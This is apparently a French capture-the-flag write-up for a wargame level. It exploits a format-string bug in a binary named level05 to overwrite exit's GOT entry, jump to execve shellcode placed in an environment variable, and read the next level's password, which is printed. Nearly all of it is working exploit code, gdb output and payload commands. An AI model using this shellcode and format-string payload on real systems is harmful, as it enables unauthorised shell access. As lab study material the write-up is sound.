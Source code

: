 # Level04

```shell
$ ./level05
Hello World
hello world
```

Le programme utilise notre `input` comme premier paramètre de son printf. On peut alors effectuer une attaque `FormatString` pour replacer l'appel de la fonction `exit` pour notre variable d'environnement `Shellcode`

```shell
$ export Shellcode=$(python -c 'print "\x90"*100 +"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"')

$ gdb level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x8048444

(gdb) run
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048444 in main ()

(gdb) x/s *((char **)environ)
0xffffd860: "Shellcode=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343P\211\341P\211\342\260\v̀"
```

Nous avons l'adresse de notre variable `Shellcode => 0xffffd860`

On cherche l'adresse de la fonction `exit`

```shell
$ gdb level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.

(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

Nous avons l'adresse de la fonction exit `exit => 0x80497e0`

On a plus qu'à enregistrer `0xd860` puis `0xffff`

- `0xd860 + 0x30 = 55440 - 8 = 55432`
- `0xffff = 65535 - 55440 = 10095`

On cherche à connaître le nombre `NB` pour tomber sur notre input dans `"aaaa%NB$x"`

```shell
$ python -c 'print("aaaa%10$x")' | ./level05
aaaa61616161
```

On a plus qu'à tout rassembler

```shell
$ (python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55432d%10$hn" + "%10095d%11$hn")'; cat) | ./level05
...
               -134415680
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
